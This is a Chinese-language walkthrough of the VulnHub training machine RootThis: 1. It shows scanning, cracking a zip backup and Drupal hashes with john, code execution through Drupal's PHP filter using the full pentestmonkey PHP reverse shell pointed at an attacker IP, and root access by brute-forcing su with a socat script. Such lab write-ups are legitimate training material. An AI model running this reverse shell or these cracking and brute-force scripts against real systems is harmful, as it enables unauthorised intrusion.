## 复盘*

## 靶机地址

[RootThis: 1 ~ VulnHub](https://www.vulnhub.com/entry/rootthis-1,272/)




## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```



创建文件夹用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.1.0/24
```


确定靶机ip

192.168.1.135


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.1.135 -oA ./nmapscan/ports
```



开放了：

- 80 http


#### 提取端口信息

```
ports
```




#### 详细结果扫描

```
nmap -sCV -O -p 80 192.168.1.135 -oA ./nmapscan/detail
```



分析：

- 80 http Apache httpd 2.4.25


### 80端口

#### 访问192.168.1.135



apache主页

查看源码，无内容


#### dirsearch进行目录扫描

```
dirsearch -u http://192.168.1.135/ -x 404,403
```





存在

- backup
- drupal
- manual


#### gobuster再次进行目录扫描

```
gobuster dir -w /home/ra1n3/dic/Dir/directory-list-2.3-medium.txt -u http://192.168.1.135 -x txt,html,php
```





存在

- backup
- drupal
- manual

backup可能是一个备份文件

drupal是一个CMS站点

manual不清楚


#### 访问backup

```
wget 192.168.1.135/backup
file backup
```



zip文件


#### 尝试解压

```
unzip backup
```



需要密码，解压失败


#### 利用john爆破

```
zip2john backup > hash
john hash -w=/usr/share/wordlists/rockyou.txt
```





首先利用zip2john将zip文件转为hash

然后利用john爆破，得到密码

- thebackup


#### 解压backup

```
unzip backup
```



得到一个dump.sql文件


#### 连接本地数据库

```
mysql -u root -p
show databases;
```






#### 加载dump.sql

```
source dump.sql
```




```
show databases;
use drupaldb;
show tables;
selece * from users;
```






得到用户名和密码哈希

- webman：$S$D48VBXSv5S.xSEjmLOyEPUL.okqerljl.gR6X7q0nyYAvymhZ4VN




#### 利用john爆破密码

```
john passwd -w=/usr/share/wordlists/rockyou.txt
```



得到密码

- moranguita




#### 访问drupal




#### 尝试登录



成功登录后台


#### 寻找利用点





其中content处可以写内容



多少只能作纯文本或html解析

然后在modules处发现php解析器



应用




可以将内容作为php代码解析


#### 尝试一下phpinfo

```
<?php phpinfo();?>
```





可以执行


#### 写入php-reverse-shell.php

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.1.3';  // CHANGE THIS
$port = 283;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```


本地开启监听

```
nc -lvp 283
```




保存后自动触发




## 提权

### 转换终端

```
/usr/bin/script -qc /bin/bash /dev/null
```




尝试sudo -l

```
sudo -l
```



没有sudo命令


### 查看/etc/passwd

```
cat /etc/passwd
```



存在一个普通用户

- user


### 进入user的家目录

```
cd /home
ls
cd user
ls
cat MessageToRoot.txt
```



```
Hi root,

Your password for this machine is weak and within the first 300 words of the rockyou.txt wordlist. Fortunately root is not accessible via ssh. Please update the password to a more secure one.

Regards,
user

你好，root，

你在这一台机器上的密码很弱，属于rockyou.txt密码字典的前300个单词之一。幸运的是，root并不能通过ssh访问。请将密码更改为更安全的密码。

祝好，
user
```

提示利用rockyou.txt前三百个单词爆破root密码


### 首先制作字典

```
head -300 /usr/share/wordlists/rockyou.txt > 300.txt
```




### 写脚本

```
#!/bin/bash

for i in `cat 300.txt`
do
        echo "$i"
        (sleep 0.1;echo "$i")|./socat - EXEC:'bash -c "su -c id"',pty

done
```




### 上传靶机

```
python -m http.server
wget 192.168.1.3:8000/300.txt -O 300.txt
wget 192.168.1.3:8000/suForce -O suForce
chmod +x suForce
```






### 下载socat

```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
chmod +x socat
./socat
```



成功执行socat


### 爆破

```
./suForce
```





得到密码

- 789456123


### 得到flag

```
su root
cd /root
ls
cat flag.txt
```


